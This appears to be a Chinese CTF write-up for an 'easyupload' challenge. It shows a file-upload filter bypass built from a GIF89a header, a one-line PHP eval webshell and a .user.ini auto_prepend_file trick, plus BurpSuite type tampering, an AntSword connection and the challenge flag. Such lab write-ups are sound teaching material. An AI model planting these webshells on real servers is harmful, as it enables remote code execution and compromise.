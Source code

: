 ## easyupload

文件上传，尝试一句话木马

如果上传的文件包含 php会被检测

```
your filetype looks wicked

your file looks wicked
```
### webshell 上传
* 修改文件后缀为jpg 
* 添加图片文件头  
* 使用短标签
```
GIF89a                                 // 添加图片文件头
<?=eval($_POST[('x')]);?>              // 使用短标签
```
显示上传成功
![img.png](imgs/webshell上传成功.png)
* 使用火狐浏览器查看 文件上传位置（蚁剑连接时会用到 注意 不是根目录下的index.php）
![img.png](imgs/shell上传位置.png)

### .user.ini 文件
* 在服务器中，只要是运用了fastcgi的服务器就能够利用该方式getshell，不论是apache或者ngnix或是其他服务器。这个文件是php.ini的补充文件，当网页访问的时候就会自动查看当前目录下是否有.user.ini，然后将其补充进php.ini，并作为cgi的启动项。其中很多功能设置了只能php.ini配置，但是还是有一些危险的功能可以被我们控制
* 借助.user.ini让所有php文件都“自动”包含某个文件，这个文件可以是一个正常php文件，也可以是一个包含一句话木马的webshell。

#### .user.ini 文件内容
```
GIF89a
auto_prepend_file=shell.jpg
```
* auto_prepend_file的用法：
auto_prepend_file可以让所有的php文件自动的包含某个文件。什么意思？

例如在.user.ini文件中写入
```
auto_prepend_file=a.jpg
```
然后在a.jpg中写入一个一句话代码
```
<?php eval($_P0ST['a']); ?>
```
那么和.user.ini和a.jpg同一目录下的所有php文件都会包含a.jpg文件

#### .user.ini 文件内容 上传
直接上传会显示失败
BurpSuite抓包，修改类型后再放包
![img.png](imgs/userini文件上传brup修改类型.png)
上传成功
![img.png](imgs/userini上传成功.png)

![img.png](imgs/历史抓包.png)

### 蚁剑连接
![img.png](imgs/antsword1.png)
![img_1.png](imgs/antsword2.png)
![img_2.png](imgs/antsword3.png)

## flag
cyberpeace{20b4a2a6e35d4198edf4f8a3f52496f5}
